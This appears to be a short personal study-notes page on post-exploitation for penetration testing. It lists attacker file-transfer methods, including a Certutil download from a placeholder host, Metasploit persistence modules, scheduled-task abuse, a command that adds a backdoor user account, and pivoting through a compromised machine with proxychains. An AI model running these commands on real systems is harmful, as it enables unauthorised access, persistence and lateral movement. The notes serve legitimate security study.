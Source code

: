 ## Post Exploitation - Review

### File transfers
* python -m SimpleHTTPServer 80
* python -m pyftpdlib 21 (attacker ip)
*   ftp attackerip (windows machines)
* Certutil.exe -urlcache -f http://ip.address/bad.txt output.txt
* wget (linux machines)
* metasploit

---

### Maintaining access

#### Persistence Scripts (Metasploit)
* run persistence -h
* exploit/windows/local/persistence
* exploit/windows/local/registry_persistence

#### Scheduled Tasks
* run scheduleme
* run schtaskabuse

#### Add a user
* net user FakeUser Password1 /add

---

### Pivoting - Using a compromised device as a condui to reach new locations. For situations when a secondary device is only reachable through a compromised device, or for more covert activities (more in the realms of Red Teaming).

#### Proxychains: Bind port, Proxychain, Proxy  
    * device 1 has access to device 2 which is not reachable from our attacker machine device 0  
    * proxychain and bind port is setup on device 0  
    * proxy tunnel on devive 1  
    * target is device 2

* ssh (into device 1 and setup a proxy tunnel with a bind port, so all traffic will be proxied through device 1, between device 0 and 2.)
* proxychains nmap 10.10.10.225 | scans device 2 with standard nmap syntax, because this is pchained it may be unstable on syn scanning. So switch to -sT as tcp scanning could be better

#### Chisel

#### Sshuttle


---

### Cleaning up


